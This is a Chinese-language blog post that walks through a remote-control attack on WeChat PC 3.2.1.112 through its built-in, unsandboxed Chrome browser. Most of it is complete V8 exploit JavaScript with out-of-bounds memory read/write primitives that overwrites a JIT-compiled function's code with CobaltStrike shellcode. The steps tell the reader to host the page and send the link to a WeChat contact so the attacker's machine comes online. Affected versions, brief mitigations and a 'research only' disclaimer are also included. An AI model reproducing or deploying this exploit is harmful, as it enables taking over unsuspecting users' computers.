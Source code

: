 # 利用微信内置浏览器Chrome漏洞实现远控
环境：微信PC版本3.2.1.112

![](%E5%88%A9%E7%94%A8%E5%BE%AE%E4%BF%A1%E5%86%85%E7%BD%AE%E6%B5%8F%E8%A7%88%E5%99%A8Chrome%E6%BC%8F%E6%B4%9E%E5%AE%9E%E7%8E%B0%E8%BF%9C%E6%8E%A7/watermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ5NjA1OTc1%2Csize_16%2Ccolor_FFFFFF%2Ct_70.png)

利用步骤：  
1.首先使用CobaltStrike生成一个x86格式的shellcode。  
 

![](%E5%88%A9%E7%94%A8%E5%BE%AE%E4%BF%A1%E5%86%85%E7%BD%AE%E6%B5%8F%E8%A7%88%E5%99%A8Chrome%E6%BC%8F%E6%B4%9E%E5%AE%9E%E7%8E%B0%E8%BF%9C%E6%8E%A7/1_watermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ5NjA1OTc1%2Csize_16%2Ccolor_FFFFFF%2Ct_70.png)

  
2.搭建一个测试网站，将下方0day poc放入。

![](%E5%88%A9%E7%94%A8%E5%BE%AE%E4%BF%A1%E5%86%85%E7%BD%AE%E6%B5%8F%E8%A7%88%E5%99%A8Chrome%E6%BC%8F%E6%B4%9E%E5%AE%9E%E7%8E%B0%E8%BF%9C%E6%8E%A7/2021041721422479.png)

![](%E5%88%A9%E7%94%A8%E5%BE%AE%E4%BF%A1%E5%86%85%E7%BD%AE%E6%B5%8F%E8%A7%88%E5%99%A8Chrome%E6%BC%8F%E6%B4%9E%E5%AE%9E%E7%8E%B0%E8%BF%9C%E6%8E%A7/2021041721451182.png)

    ENABLE_LOG = true;
    IN_WORKER = true;
    
    
    var shellcode = [shellcode];
    function print(data) {
    }
    
    
    var not_optimised_out = 0;
    var target_function = (function (value) {
        if (value == 0xdecaf0) {
            not_optimised_out += 1;
        }
        not_optimised_out += 1;
        not_optimised_out |= 0xff;
        not_optimised_out *= 12;
    });
    
    for (var i = 0; i < 0x10000; ++i) {
        target_function(i);
    }
    
    
    var g_array;
    var tDerivedNCount = 17 * 87481 - 8;
    var tDerivedNDepth = 19 * 19;
    
    function cb(flag) {
        if (flag == true) {
            return;
        }
        g_array = new Array(0);
        g_array[0] = 0x1dbabe * 2;
        return 'c01db33f';
    }
    
    function gc() {
        for (var i = 0; i < 0x10000; ++i) {
            new String();
        }
    }
    
    function oobAccess() {
        var this_ = this;
        this.buffer = null;
        this.buffer_view = null;
    
        this.page_buffer = null;
        this.page_view = null;
    
        this.prevent_opt = [];
    
        var kSlotOffset = 0x1f;
        var kBackingStoreOffset = 0xf;
    
        class LeakArrayBuffer extends ArrayBuffer {
            constructor() {
                super(0x1000);
                this.slot = this;
            }
        }
    
        this.page_buffer = new LeakArrayBuffer();
        this.page_view = new DataView(this.page_buffer);
    
        new RegExp({ toString: function () { return 'a' } });
        cb(true);
    
        class DerivedBase extends RegExp {
            constructor() {
                
                super(
                    
                    
                    {
                        toString: cb
                    }, 'g'
                    
                    
                );
    
                
                
                this_.buffer = new ArrayBuffer(0x80);
                g_array[8] = this_.page_buffer;
            }
        }
    
        
        var derived_n = eval(`(function derived_n(i) {
            if (i == 0) {
                return DerivedBase;
            }
    
            class DerivedN extends derived_n(i-1) {
                constructor() {
                    super();
                    return;
                    ${"this.a=0;".repeat(tDerivedNCount)}
                }
            }
    
            return DerivedN;
        })`);
    
        gc();
    
    
        new (derived_n(tDerivedNDepth))();
    
        this.buffer_view = new DataView(this.buffer);
        this.leakPtr = function (obj) {
            this.page_buffer.slot = obj;
            return this.buffer_view.getUint32(kSlotOffset, true, ...this.prevent_opt);
        }
    
        this.setPtr = function (addr) {
            this.buffer_view.setUint32(kBackingStoreOffset, addr, true, ...this.prevent_opt);
        }
    
        this.read32 = function (addr) {
            this.setPtr(addr);
            return this.page_view.getUint32(0, true, ...this.prevent_opt);
        }
    
        this.write32 = function (addr, value) {
            this.setPtr(addr);
            this.page_view.setUint32(0, value, true, ...this.prevent_opt);
        }
    
        this.write8 = function (addr, value) {
            this.setPtr(addr);
            this.page_view.setUint8(0, value, ...this.prevent_opt);
        }
    
        this.setBytes = function (addr, content) {
            for (var i = 0; i < content.length; i++) {
                this.write8(addr + i, content[i]);
            }
        }
        return this;
    }
    
    function trigger() {
        var oob = oobAccess();
    
        var func_ptr = oob.leakPtr(target_function);
        print('[*] target_function at 0x' + func_ptr.toString(16));
    
        var kCodeInsOffset = 0x1b;
    
        var code_addr = oob.read32(func_ptr + kCodeInsOffset);
        print('[*] code_addr at 0x' + code_addr.toString(16));
    
        oob.setBytes(code_addr, shellcode);
    
        target_function(0);
    }
    
    try{
        print("start running");
        trigger();
    }catch(e){
        print(e);
    }
    
    End...

3.微信发送给任意好友，在pc端用内置浏览器打开url即可成功上线。  
 

![](%E5%88%A9%E7%94%A8%E5%BE%AE%E4%BF%A1%E5%86%85%E7%BD%AE%E6%B5%8F%E8%A7%88%E5%99%A8Chrome%E6%BC%8F%E6%B4%9E%E5%AE%9E%E7%8E%B0%E8%BF%9C%E6%8E%A7/20210417214359619.png)

![](%E5%88%A9%E7%94%A8%E5%BE%AE%E4%BF%A1%E5%86%85%E7%BD%AE%E6%B5%8F%E8%A7%88%E5%99%A8Chrome%E6%BC%8F%E6%B4%9E%E5%AE%9E%E7%8E%B0%E8%BF%9C%E6%8E%A7/2021041721441062.png)

  
4.使用CobaltStrike工具即可实现远控等一系列操作，CobaltStrike简介及使用教程请看我的另一篇文章：[http://blog.tianles.com/71.html](http://blog.tianles.com/71.html)

漏洞产生原因：  
微信内置浏览器为QQ浏览器，QQ浏览器使用chrome内核且沙箱处于关闭状态。

注：微信关闭网页shell会掉问题，可进程迁移解决。

影响范围：  
微信PC版：3.2.1.141版本及以下  
使用chrome内核89.0.4389.114以下版本的浏览器（edge，360浏览器，google chrome，谷歌浏览器等）

预防措施：  
将微信升级至3.2.1.141版本以上，不点击陌生链接。

截至发文日期：2021.4.17，最新版微信内核仍未更新，仍然可以使用其他手段来绕过，从而实现远控！

![](%E5%88%A9%E7%94%A8%E5%BE%AE%E4%BF%A1%E5%86%85%E7%BD%AE%E6%B5%8F%E8%A7%88%E5%99%A8Chrome%E6%BC%8F%E6%B4%9E%E5%AE%9E%E7%8E%B0%E8%BF%9C%E6%8E%A7/watermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ5NjA1OTc1%2Csize_16%2Ccolor_FFFFFF%2Ct_70.dat)

本文提供的poc仅供技术研究使用，请勿非法使用。  
本文部分内容参考靓仔Jaky的公众号文章，在此特别感谢靓仔。

* * *

> 本文链接：[http://blog.tianles.com/99.html](http://blog.tianles.com/99.html)
> 
> 天乐原创文章，转载请注明出处！